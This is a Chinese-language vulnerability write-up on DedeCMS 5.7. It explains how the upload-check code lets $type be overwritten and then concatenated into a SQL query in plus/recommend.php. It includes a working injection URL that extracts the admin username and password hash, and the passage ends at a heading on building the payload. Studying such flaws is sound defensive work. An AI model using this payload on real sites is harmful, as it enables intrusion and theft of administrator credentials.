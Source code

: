 ```yaml
---
description: 记录DedeCMS5.7漏洞信息
---
```


# DedeCMS5.7漏洞利用与分析

 源码链接：[https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw](https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw) 提取码：ay3g

## 漏洞复现

在分析漏洞形成原因之前，先来看一下这个漏洞复现情况。

查看系统的发布日期，直接访问 网站url/data/admin/ver.txt

![](../.gitbook/assets/image%20%2896%29.png)

此时间发布的版本在plus/recommend.php中存在注入漏洞，在此演示直接爆出用户名和密码散列值的payload

```text
/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\' or mid=@`\'` /*!50000union*//*!50000select*/1,2,3,(select CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin` limit+0,1),5,6,7,8,9%23@`\'`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111
```

![&#x6F0F;&#x6D1E;&#x8868;&#x73B0;](../.gitbook/assets/image%20%28114%29.png)

## 漏洞分析

打开recommend.php,查看代码，第12行程序引入了一个common.inc.php

![](../.gitbook/assets/image%20%2889%29.png)

跟进去看一下

![](../.gitbook/assets/image%20%2847%29.png)

只要提交的URL中不包含cfg\_\|GLOBALS，即可通过检查。继续往下看代码

![](../.gitbook/assets/image%20%2826%29.png)

在第95行引入了uploadsafe.inc.php文件，查看文件代码，在第29行存在一个漏洞。

```text
$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);
```

传入$\_key为type时 该语句就变成了对$type的赋值，导致了对$type变量覆盖，而在recommend.php中第38行，用到了$type变量来拼接sql语句。

```text
$arcRow=$dsql->GetOne("SELECT s.*,t.* FROM `#@__member_stow` AS s LEFT JOIN `#@__member_stowtype` AS t ON s.type=t.stowname WHERE s.aid='$aid' AND s.type='$type'");
```

## 如何构造payload

我们已经知道了漏洞存在的点，该如何达到目的那？



